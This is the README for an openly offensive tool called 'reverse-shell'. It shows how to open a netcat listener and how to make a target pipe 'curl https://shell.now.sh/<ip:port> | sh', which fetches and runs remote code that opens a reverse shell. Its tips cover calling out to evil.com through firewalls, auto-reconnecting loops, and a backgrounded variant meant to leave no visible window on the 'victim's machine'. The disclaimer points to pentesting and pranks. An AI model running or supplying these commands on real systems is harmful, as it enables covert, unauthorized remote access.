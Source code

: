 # reverse-shell

> Reverse Shell as a Service - https://shell.now.sh

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://shell.now.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://shell.now.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

### Running as a background process

The terminal session needs to be kept open to persist the reverse shell connection. That might be a bit of a giveaway if you're trying to prank coworkers.

The following command will run the reverse shell in a background process and exit the terminal, leaving no suspicious looking terminal windows open on the victim's machine.

Make sure you run this in a fresh terminal window otherwise you'll lose any work in your existing session.

```shell
sh -c "curl https://shell.now.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT © Luke Childs
